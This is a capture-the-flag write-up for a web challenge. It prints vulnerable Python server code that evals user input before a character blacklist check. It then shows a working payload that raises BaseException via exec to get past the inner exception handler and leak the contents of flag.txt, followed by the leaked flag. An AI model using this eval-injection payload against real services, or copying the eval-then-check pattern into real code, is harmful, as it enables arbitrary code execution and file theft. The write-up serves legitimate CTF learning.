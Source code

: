 # New is old again

```
score: 327
solved: 66/66 (solved in last 5 minutes)
difficulty: NA
tags: web, python, eval, OOP, exception hierarchy, inheritance
```

## Problem

```
Is this old vulnerability new now?

https://newisoldagain.ctf.intigriti.io/
Flag format: flag{}
Created by PinkDraconian
```

## Got the flag
The page shows its source code

```py
import web
import sys
from io import StringIO
import string

urls = (
  '/', 'index',
  '/old', 'old',
)
render = web.template.render('templates/')
app = web.application(urls, globals())

class index:
    def GET(self):
        source = f'\x3cpre\x3e\x3ccode\x3e{open(__file__).read()}\x3c/code\x3e\x3c/pre\x3e'
        return render.index(source, '')

class old:
    def GET(self):
        eval_output = ''
        stdout = sys.stdout
        sys.stdout = reportSIO = StringIO()
        blacklist = string.printable
        try:
            get_input = web.input()
            inject = get_input['inject'] if 'inject' in get_input else None
            if (inject):
                try:
                    x = eval(inject)
                    if (x):
                        eval_output = str(eval_output) + x
                except Exception as error:
                    print(error)
            for x in inject:
                if any(x in inject for x in blacklist):
                    return "caught you again 1337"
            reportStr = reportSIO.getvalue()
            sys.stdout = stdout
            output = str(reportStr) + str(eval_output)
            return render.index(f'\x3cpre\x3e\x3ccode\x3e{open(__file__).read()}\x3c/code\x3e\x3c/pre\x3e', output)
        except Exception as error:
            print(error)
            return error


if __name__ == "__main__":
    app.run()
```

The **ONLY** different here is the blacklist, instead of 3 strings in [OldIsNewAgain](./OldIsNewAgain.md),
is now uses `string.printable` - which is all printable characters. How could you write code without using
ASCII-printable characters? that is the trick to misleading players here.

Till the very last 5 minutes, after discussions we recognised the code still `eval` **THEN** check, so
if somehow we can put the flag somewhere after eval, we can got this.

The obvious way is do an exception, but the code already

```py
try:
    eval()
except Exception as error:
    print(error)
```

The [Python exception hierarchy](https://docs.python.org/3/library/exceptions.html#exception-hierarchy)
shows that Exception is child of class BaseException, and sibling with:

- SystemExit
- KeyboardInterrupt
- GeneratorExit

so if we raise BaseException with content set to the flag, it could get out of the enclosing try/except,
to the outer try/except, which returns to user.
`eval` accepts only expression, `raise` is a statement, thus have to wrap in `exec`

```py
r = requests.get('https://newisoldagain.ctf.intigriti.io/old',

                 params={'inject': 'exec("""raise BaseException(str([i for i in open("flag.txt")]))""")'})
print(r.text)
```
It outputs a verbose debug webpage, search for `BaseException`, see

```html
  <h1>&lt;class &#39;BaseException&#39;&gt; at /old</h1>
  <h2>[&#39;flag{we_r3_reaaaaaaaaaaaaallly_leveling_up_here_oob_and_stuff}\n&#39;]</h2>
```

## Conclusion
The author was successfully tricked us to not do this sooner, it's out of time,
we could have took the last challenge, which is the same code, just eval with globals=None.
